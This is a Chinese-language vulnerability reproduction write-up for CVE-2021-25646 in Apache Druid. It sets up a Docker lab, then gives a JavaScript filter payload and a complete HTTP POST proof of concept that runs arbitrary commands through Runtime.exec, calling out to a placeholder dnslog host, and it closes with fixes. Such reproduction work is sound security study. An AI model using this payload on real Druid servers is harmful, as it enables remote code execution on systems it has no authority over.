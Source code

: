 

# CVE-2021-25646 - Apache Druid RCE 复现

# [](#apache-druid-rce-%E5%A4%8D%E7%8E%B0)Apache Druid RCE 复现

## [](#1-%E6%BC%8F%E6%B4%9E%E4%BB%8B%E7%BB%8D)1 漏洞介绍

### [](#11-druid)1.1 Druid

Druid 是一个 JDBC 组件，支持所有 JDBC 兼容的数据库，包括 Oracle、MySql、Derby、Postgresql、SQL Server、H2 等。

### [](#12-%E6%BC%8F%E6%B4%9E%E6%8F%8F%E8%BF%B0)1.2 漏洞描述

**编号：CVE-2021-25646**

Apache Druid 包括执行用户提供的 JavaScript 的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在 Druid 0.20.0 及更低版本中，经过身份验证的用户可以构造传入的 json 串来控制一些敏感的参数发送恶意请求，利用 Apache Druid 漏洞可以执行任意代码。

### [](#13-%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC)1.3 影响版本

Apache Druid < 0.20.1

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

### [](#21-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)2.1 环境搭建

从 docker 仓库中拉取一个版本为 0.16.0 的镜像：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>docker pull fokkodriesprong/docker-druid<br>docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202215229.png-water_print](assets/1699411376-784b5fec9c36839f49fe8bbc66292b5e.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202215229.png-water_print")

### [](#22-%E5%A4%8D%E7%8E%B0)2.2 复现

docker 容器启动后，访问 8888 端口：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224141.png-water_print](assets/1699411376-8748f4e80dc2ffffcc0ae10db1e1a7c1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224141.png-water_print")

点击 `Load data -> Local Disk`：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224155.png-water_print](assets/1699411376-0b0af03c603ffce4725b937fe7e1caed.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224155.png-water_print")

填入

**Base directory:** `quickstart/tutorial/`

**File filter:** `wikiticker-2015-09-12-sampled.json.gz`

一直点击 next 到 filter 项

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224208.png-water_print](assets/1699411376-b955bc5ea3b2a2f520a5c2dffb6c6180.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224208.png-water_print")

抓包修改 filter 为：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```json<br>{<br>    "type":"javascript",<br>    "function":"function(value){return java.lang.Runtime.getRuntime().exec('curl dnslog')}",<br>    "dimension":"added",<br>    "":{<br>    "enabled":"true"<br>    }<br>}<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224306.png-water_print](assets/1699411376-ffd5185208e836a708320683437e1a35.jpg "修改前")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224325.png-water_print](assets/1699411376-b91bdfc355cf3633ed7628ad20d6cb71.jpg "修改后")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224502.png-water_print](assets/1699411376-cb72c20855427ba567ca0ce8fe9a4a75.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224502.png-water_print")

也可以直接使用 POC：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```http<br>POST /druid/indexer/v1/sampler HTTP/1.1<br>Host: xxx.xxx.xxx.xxx:8888<br>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0<br>Accept: application/json, text/plain, */*<br>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br>Content-Type: application/json<br>Content-Length: 995<br>Connection: close<br><br><br>{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('curl xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}<br>``` |

### [](#23-%E4%BF%AE%E5%A4%8D)2.3 修复

升级 Apache Druid 到最新的版本

对 Apache Druid 进行权限控制，只允许受信任的主机访问集群服务器
